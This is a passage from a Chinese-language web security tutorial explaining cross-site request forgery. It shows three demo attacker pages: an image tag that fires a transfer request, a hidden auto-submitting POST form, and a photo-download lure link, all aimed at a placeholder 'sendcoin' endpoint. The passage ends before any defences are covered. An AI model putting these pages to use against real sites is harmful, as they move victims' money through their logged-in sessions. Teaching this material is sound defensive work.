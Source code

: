 ### 什么是 CSRF 攻击

“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事。

1. 自动发起 Get 请求

```javascript
<!DOCTYPE html>
<html>
  <body>
    <h1>黑客的站点：CSRF攻击演示</h1>
    <img src="https://xxx/sendcoin?user=hacker&number=100">
  </body>
</html>
```

这是黑客页面的 HTML 代码，在这段代码中，黑客将<span style='color:red'>转账的请求接口隐藏在 img 标签内</span>，欺骗浏览器这是一张图片资源。当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的 100 人民币就被转移到黑客的账户上去了。

2. 自动发起 POST 请求

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>黑客的站点：CSRF攻击演示</h1>
    <form id="hacker-form" action="https://淘宝/sendcoin" method="POST">
      <input type="hidden" name="user" value="hacker" />
      <input type="hidden" name="number" value="100" />
    </form>
    <script>
      document.getElementById('hacker-form').submit();
    </script>
  </body>
</html>
```

在这段代码中，我们可以看到黑客在他的页面中构建了一个隐藏的表单，该表单的内容就是 xxx 网站的转账接口。当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。因此使用构建自动提交表单这种方式，就可以自动实现跨站点 POST 数据提交

3. 引诱用户点击链接

```html
<div>
  <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg> </img> </div> <div>
  <a href="淘宝/sendcoin?user=hacker&number=100" taget="_blank">
    点击下载美女照片
  </a>
</div>
```

这段黑客站点代码，页面上放了一张美女图片，下面放了图片下载地址，而这个下载地址实际上是黑客用来转账的接口，一旦用户点击了这个链接，那么他的 💰 就被转到黑客账户上了。

以上三种就是黑客经常采用的攻击方式。如果当用户登录了淘宝，以上三种 CSRF 攻击方式中的任何一种发生时，那么服务器都会将一定金额发送到黑客账户。到这里，相信你已经知道什么是 CSRF 攻击了。和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击。

#### CSRF 攻击的前提

